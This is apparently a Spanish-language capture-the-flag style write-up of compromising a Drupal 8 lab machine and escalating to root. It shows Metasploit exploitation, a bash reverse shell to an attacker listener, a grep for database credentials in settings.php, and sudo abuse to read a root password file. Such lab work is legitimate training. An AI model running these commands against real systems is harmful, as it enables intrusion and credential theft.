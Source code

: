 # Lab de Pentesting: Explotación y escalada de privilegios en máquina findyourstyle

Este repositorio documenta paso a paso cómo comprometer una máquina con Drupal 8 mediante un exploit conocido y escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, explotar una vulnerabilidad crítica en Drupal y, finalmente, escalar privilegios mediante análisis del sistema y abuso de binarios con privilegios.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `whatweb`
- `gobuster`
- `msfconsole`
- `netcat`


---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

![Ping a la IP](screenshots/ping.PNG)

Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos

        nmap -sC -sV -p- 172.17.0.2 -oN scan.txt

![puertos](screenshots/snaceoPuertos.PNG)


Se identificó que el sitio web utiliza **Drupal 8** en el puerto 80.

---

### 4. Enumeración de directorios con Gobuster

    gobuster dir -u http://172.17.0.2/ -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt

![directorios](screenshots/enumerarDirectorios.PNG)

Se descubrieron los directorios:

- `/user`
- `/admin`

---

### 5. Explotación con Metasploit

Iniciamos Metasploit y buscamos exploits para Drupal 8:

    msfconsole
    search drupal 8



Y encontramos algunos exploits,seleccionamos el exploit:

![metasploit](screenshots/metasploit.PNG)

    use 0
    show options
    set RHOSTS 172.17.0.2
    run

Se logró obtener una **sesión meterpreter** activa.

![Ping a la IP](screenshots/meterpreter.PNG)

---

### 6. Escalada a shell interactiva

Ejecutamos:

    shell

![shell](screenshots/shell.PNG)

En la máquina atacante, se prepara el listener:

    sudo nc -lvnp 444

![nc](screenshots/netcat2.PNG)

Y en la máquina víctima:

    bash -c "bash -i >& /dev/tcp/172.17.0.1/444 0>&1"

![bash](screenshots/bash.PNG)

Y en ya tenemos conexión:

![bash](screenshots/netcat.PNG)

---

### 7. Búsqueda de credenciales en settings.php

Visitamos HackTricks a buscar un sploit para drupal y nos encontramos la siguiente información:

    find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null

![hacktricks](screenshots/hacktricks.PNG)
![user](screenshots/userYpass.PNG)

Esto nos permitió localizar posibles credenciales de base de datos y usuarios del sistema.

---

### 8. Intento de login con usuario encontrado

![ballenita](screenshots/suBallenita.PNG)

Se prueba acceso con usuario `ballenita` pero no tiene permisos sudo. Se intenta un acceso sin TTY:

    script /dev/null -c "su ballenita"

![entrando](screenshots/entrando.PNG)

Funciona correctamente.

---

### 9. Abuso de binarios con privilegios

Se verifica que puede `ballenita` ejecutar y se ve que puede ls y grep como root sin contraseña:

![root](screenshots/exeRoot.PNG)

Se ejecuta el comando:

    sudo /bin/ls /root

![root](screenshots/passRoot.PNG)

Se encuentra el archivo `secretitomaximo.txt` y se lee su contenido con:

    sudo /bin/grep '' /root/secretitomaximo.txt

![pass](screenshots/passRootEncontrada.PNG)

Se obtiene una posible contraseña de root.

---

### 10. Acceso root

Se prueba la contraseña obtenida y se confirma el acceso con privilegios de root.

![final](screenshots/final.PNG)

---

## Resultados finales

- Acceso root conseguido mediante explotación de Drupal 8.
- Escalada de privilegios exitosa utilizando binarios permitidos y acceso a archivos sensibles.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
